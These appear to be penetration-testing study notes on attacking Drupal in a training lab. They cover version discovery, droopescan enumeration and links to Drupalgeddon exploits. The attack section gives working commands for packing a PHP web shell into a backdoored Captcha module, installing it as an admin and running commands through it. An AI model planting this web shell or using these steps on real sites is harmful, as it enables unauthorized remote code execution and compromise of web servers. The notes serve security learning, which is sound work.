 #cms
# Discovery
```bash
curl -s http://drupal.inlanefreight.local | grep Drupal
```
Check /node/1 links

```
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

curl -s http://drupal.inlanefreight.local/CHANGELOG.txt

droopescan scan drupal -u http://drupal.inlanefreight.local
```

# Enumeration
https://github.com/SamJoan/droopescan
Supported CMS are:
* SilverStripe
* [[Wordpress]]
* Drupal
Partial functionality for:
* [[joomla]] (version enumeration and interesting URLs only)
* Moodle (plugin & theme very limited, watch out)
```bash
git clone https://github.com/SamJoan/droopescan && cd droopescan
pip install -r requirements.txt

./droopescan scan drupal -u http://drupal.inlanefreight.local

[+] Plugins found:                                                              
    php http://drupal.inlanefreight.local/modules/php/
        http://drupal.inlanefreight.local/modules/php/LICENSE.txt

[+] No themes found.

[+] Possible version(s):
    8.9.0
    8.9.1

[+] Possible interesting urls found:
    Default admin - http://drupal.inlanefreight.local/user/login

[+] Scan finished (0:03:19.199526 elapsed)
```

# Attacks
## PHP Filter
installed by default before v8
or can be downloaded manually for >v8
```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
## Uploading a Backdored Module
```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz

echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]); ?>' > shell.php

cat .htaccess
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>

mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
Assuming we have administrative access to the website, click on Manage and then Extend on the sidebar. Next, click on the + Install new module button, and we will be taken to the install page, such as http://drupal.inlanefreight.local/admin/modules/install Browse to the backdored Captcha archive and click Install.
```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## RCE
https://www.exploit-db.com/exploits/34992
https://www.exploit-db.com/exploits/44448
https://github.com/rithchard/Drupalgeddon3